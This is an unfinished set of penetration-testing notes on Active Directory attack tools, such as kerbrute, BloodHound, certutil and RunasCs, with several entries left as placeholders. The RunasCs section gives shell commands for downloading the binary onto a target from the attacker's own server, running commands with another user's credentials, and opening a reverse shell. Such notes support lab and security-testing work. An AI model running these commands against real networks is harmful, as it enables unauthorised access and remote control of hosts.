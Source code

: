 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: false
  pagination:
    visible: true
---
```


# Tools and Utilities (WIP)

Here we can find some tools and utilities commonly used for practices related to Active Directory:

## <mark style="color:green;">ADPEAS</mark>

* H

## <mark style="color:green;">kerberos</mark>

* H

## <mark style="color:green;">kerbruter</mark>

* brute forcing attacks on kerberos environments

## <mark style="color:green;">ldapdomaindump</mark>

* H

## <mark style="color:green;">bloodhound</mark>

* H

## <mark style="color:green;">**certutil**</mark>

* Binary for certificate management, encryption, decryption, hashing, file verification, and remote file download, among others.
* It comes by default on Windows Systems

{% code overflow="wrap" lineNumbers="true" %}
```powershell
certutil -encode $file $outFile # Convert file to base64 certificate
```
{% endcode %}

## <mark style="color:green;">**RunasCs**</mark>

* The utility to run specific processes with permissions different from the user's current login is provided using explicit credentials.
* [https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)

### <mark style="color:yellow;">Commands</mark>

* Installation

{% code overflow="wrap" lineNumbers="true" %}
```bash
https://github.com/antonioCoco/RunasCs/releases/tag/v1.5 #go her and download the zip file and decompress it
```
{% endcode %}

***

* Usage

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Host machine
cd RunasCs
python3 -m http.server $port #Create server to send file

#Target machine
cd C:\
mkdir Temp
cd Temp
wget http://$MyIP:$port/RunasCs.exe -outFile  RunasCs.exe
RunasCs.exe $username $pass $command #Execute a command as another user
RunasCs.exe $username $pass $command -r $IP:$port #Execute and generate RevShell
```
{% endcode %}



netexec: evolution of crackmaexec

smbmap: enumeration of smb info

en smbclient  recurse -> ls for recursive listing



e
